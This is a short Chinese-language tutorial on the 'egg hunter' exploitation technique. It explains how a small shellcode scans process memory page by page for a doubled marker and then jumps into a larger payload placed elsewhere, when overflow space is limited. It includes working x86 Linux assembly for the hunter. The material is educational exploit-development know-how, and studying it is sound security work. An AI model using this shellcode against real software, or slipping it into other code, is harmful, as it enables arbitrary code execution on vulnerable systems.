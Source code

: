 ## Egg Hunter

Egg Hunter由两部分组成，一部分是Egg，一部分是Hunter。在溢出的场景中，溢出的字节有限的情况下，比较大的shellcode(Egg)塞不进去，那就把大的shellcode放到内存的其他地方，在有限的溢出空间中用小的shellcode(Hunter)，去寻找大的shellcode来执行。

Egg就是大的shellcode，Hunter就是小的shellcode。类比于web漏洞挖掘中的“小马传大马”。

## 基本原理

1) 内存扫描

Linux下使用access、sigaction等内核函数来做判断，如果地址不可访问，这些函数会返回0xf2。
Windows下也有类似的函数，如IsBadReadPtr、NtDisplayString函数。

如果当前地址不可访问，则跳到下一个内存页。因为内存一般都是4k大小页对齐的，所以当前地址无法访问则可以判定该地址所在内存页都无法访问，可以提高扫描速度。

2) 对比关键字

不采用shellcode的前几个字节作为标记（不够独特），由我们自己指定标记，且为了避免检索到hunter页自身的标记，我们需要在设置egg页标记时应该重复两次。Hunter在比较的时候，连续比较两次标记，则认为找到Egg。

## 代码

* Linux egg code :

```c
_start:
xor ecx, ecx
mul ecx

next_page:
or dx, 0xfff  // 4kb=0x1000
inc edx

lea ebx, [edx]
xor eax, eax
mov al, 0x21
int 0x80  // call access

cmp al, 0xf2  
jz next_page

call here

.string "\x31\x31\x31\x31" // compare sign

here:
pop eax
mov eax, [eax]
mov edi, edx
scasd
// scasd   eax,DWORD PTR es:[edi] -> edi+4
jnz next_page

scasd
jnz next_page  // repeat compare sign 


find:

jmp edi

```